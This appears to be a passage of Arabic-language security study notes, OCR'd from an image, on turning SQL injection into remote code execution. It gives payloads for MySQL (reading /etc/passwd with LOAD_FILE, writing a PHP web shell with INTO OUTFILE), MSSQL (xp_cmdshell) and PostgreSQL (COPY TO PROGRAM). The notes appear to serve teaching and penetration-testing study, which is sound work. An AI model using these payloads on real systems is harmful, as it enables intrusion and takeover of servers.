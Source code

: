        ```jsx
        $name = mysqli_real_escape_string($conn, $_POST['name']);
        ```
        

## **RCE (Remote Code Execution)** من خلال **SQL Injection**،

### **في MySQL:**

- **LOAD_FILE()**: يمكن استخدامها لقراءة ملفات من النظام.
    
    **مثال:**
    
    ```jsx
    SELECT LOAD_FILE('/etc/passwd');
    
    ```
    
    **INTO OUTFILE**: يمكن استخدامها لكتابة الملفات إلى النظام، وهو أمر مفيد لتحميل شل أو نص برمجي يمكن تنفيذه لاحقًا.
    
    **مثال:**
    
    ```jsx
    SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
    ```
    
    بعد تنفيذ هذا الاستعلام، يمكنك الوصول إلى الشل عبر: 
    `http://example.com/shell.php?cmd=whoami`
    

### **في MSSQL (Microsoft SQL Server):**

- **xp_cmdshell**: تتيح تنفيذ أوامر النظام مباشرة من خلال استعلام SQL.
    
    **مثال:**
    
    ```jsx
    EXEC xp_cmdshell 'dir';
    ```
    
    إذا كان لديك صلاحيات لتنفيذ هذه الدالة، يمكنك تشغيل أوامر مثل `whoami` أو `net user` لتنفيذ أوامر النظام والحصول على RCE.
    

### **في PostgreSQL:**

- **COPY TO PROGRAM**: هذه الدالة تتيح تنفيذ أوامر مباشرة من النظام.
    
    **مثال:**
    
    ```jsx
    COPY (SELECT '') TO PROGRAM 'whoami';
    ```
    

# **Server-side template injection**
